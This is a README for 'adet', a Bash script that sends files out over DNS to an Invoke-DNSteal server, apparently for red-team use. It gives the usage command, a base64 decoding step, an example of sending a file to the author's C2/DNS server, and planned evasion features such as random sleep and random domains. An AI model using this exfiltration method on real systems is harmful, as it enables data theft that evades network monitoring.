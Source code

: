 # adet: Another DNS Exfiltration Tool
Bash script for sending file to Invoke-DNSteal server

# Instructions:
1. Run [Invoke-DNSteal.py](https://github.com/JoelGMSec/Invoke-DNSteal ) in your DNS server
2. Use:
```
./adet.sh <file> <domain>
```
3. Decode the received file in base64
```
base64 -d <received_file>
```

Example: Sending [byp4xx.py](https://github.com/lobuhi/byp4xx/blob/main/byp4xx.py) to my own customized C2/DNS server 
![=250x](dnsteal.jpg)

# TO-DO:
 - Add random sleep option
 - Add random domain when DNS server is specified
 - Add byte length option
 - Add TCP option
 - Add encryption? Why not?

